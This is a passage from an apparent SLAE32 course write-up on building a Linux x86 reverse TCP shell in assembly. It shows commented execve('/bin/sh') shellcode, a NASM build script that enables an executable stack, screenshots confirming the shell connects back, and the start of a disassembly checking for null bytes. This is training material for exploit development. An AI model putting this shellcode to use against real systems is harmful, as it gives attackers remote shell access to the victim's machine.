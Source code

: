 
	;execve
	xor eax, eax
	push eax ;set envp to 0
	push 0x68732f2f ;ib//

	push 0x6e69622f ;hs/n
	mov ebx, esp ;now our stack is //bin/sh0x00000000, and ebx points to the pathname //bin/sh

	push eax	;push another 0 on the stack, so now our stack is 0x0//bin/sh0x00000000

	mov edx, esp	;edx points to envp, which is the 0x0
	push ebx ;push the memory address of //bin/sh on the stack, so now we have addr0x0//bin/sh0x00000000

	mov ecx, esp	;ecx points to the address of the //bin/sh, which is the argument argv

	mov al, 11 ;call the execve
	int 0x80
{% endhighlight %}

### Step3 - Compile the code
With the compile script obtained from the SLAE32 course, we can compile the code. Note, NASM is installed by default on kali 2020.3. If not, you need to install the NASM first.

Compile.sh:
{% highlight js %}
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
{% endhighlight %}

![compile1](https://bohansec.com/assets/compile1.png "compile1")

### Step4 - Execute the code to confirm the reverse shell is working

![reverse-execute](https://bohansec.com/assets/reverse-execute.png "reverse-execute")

![ip](https://bohansec.com/assets/ip.png "ip")

![reverse-confirm](https://bohansec.com/assets/reverse-confirm.png "reverse-confirm")

### Step5 - Check for null bytes

{% highlight js %}
kali@kali:~/Desktop/SLAE-Assignments/assignment2$ objdump -d ./reverse_tcp_shell -M intel

./reverse_tcp_shell:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:       31 c0                   xor    eax,eax
 8049002:       31 db                   xor    ebx,ebx
 8049004:       31 c9                   xor    ecx,ecx
 8049006:       31 d2                   xor    edx,edx
 8049008:       31 f6                   xor    esi,esi
 804900a:       31 ff                   xor    edi,edi
 804900c:       66 b8 67 01             mov    ax,0x167
 8049010:       b3 02                   mov    bl,0x2
 8049012:       b1 01                   mov    cl,0x1